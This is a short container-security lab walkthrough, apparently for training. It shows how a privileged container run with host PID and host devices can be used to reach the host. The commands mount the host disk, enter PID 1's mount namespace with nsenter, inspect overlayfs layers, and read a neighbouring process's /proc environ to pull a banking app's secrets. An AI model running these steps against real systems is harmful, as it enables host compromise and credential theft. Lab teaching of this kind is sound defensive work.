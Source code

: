 ### Step 1: Atrocious Antelope
Let's first build our image:
```
cd ~/projects/container-lab
docker build -t mgm:0.0.1 --build-arg ARCH=$(uname -m) -f atrocious-antelope/Dockerfile .
docker run -it --rm --privileged --pid=host -p 3000:3000 --device=/dev/:/devbind/ mgm:0.0.1
```

Navigate to our really secure app:
[[http://localhost:3000]]

You can now do naughty things.  You can check out the block devices with `lsblk` at this point.  Ruh roh!  You have a disk!

Go ahead and mount your disk: `mount /vdb1 /mnt`

If you're on orbstack, it's more complicated.  To give you a hint at how complicated it is, you can do the following:
`nsenter --mount=/proc/1/ns/mnt -- mount`
This will assume the mount namespace of PID 1 (on the host system), and list the mount devices.

You can do `cat /proc/self/mountinfo` to determine the overlayfs paths.  Notice all of the lowerdir paths?  Those are your layers for your container.  The merged overly should be at your `upperdir/../merged`.

If on btrfs, we can have fun with `btrfs`
```
apt-get btrfs-progs
btrfs subvolume snapshot /mnt /mnt/snappy
```

Get some information from neighbors:
```
# If you banking stack is running:
ps -ef | grep node
cat /proc/<nodePID>/environ
```